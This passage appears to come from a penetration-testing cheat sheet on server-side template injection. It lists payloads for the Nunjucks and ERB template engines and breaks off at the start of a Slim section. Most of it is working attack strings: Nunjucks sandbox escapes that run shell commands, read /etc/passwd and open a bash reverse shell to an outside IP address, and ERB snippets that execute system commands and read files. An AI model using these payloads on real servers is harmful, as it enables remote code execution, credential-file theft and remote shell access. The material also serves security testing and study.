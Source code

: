 - {{console.log(1)}} = Error
 



```
{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}
{{range.constructor("return global.process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/10.10.14.11/6767 0>&1\"')")()}}
```

**More information**

- [http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine)
 

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby)

ERB (Ruby)

- `{{7*7}} = {{7*7}}`
 
- `${7*7} = ${7*7}`
 
- `<%= 7*7 %> = 49`
 
- `<%= foobar %> = Error`
 



```
<%= system("whoami") %> #Execute code
<%= Dir.entries('/') %> #List folder
<%= File.open('/etc/passwd').read %> #Read file

<%= system('cat /etc/passwd') %>
<%= `ls /` %>
<%= IO.popen('ls /').readlines() %>
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>
```

**More information**

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby)
 

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#slim-ruby)

Slim (Ruby)

- `{ 7 * 7 }`
 

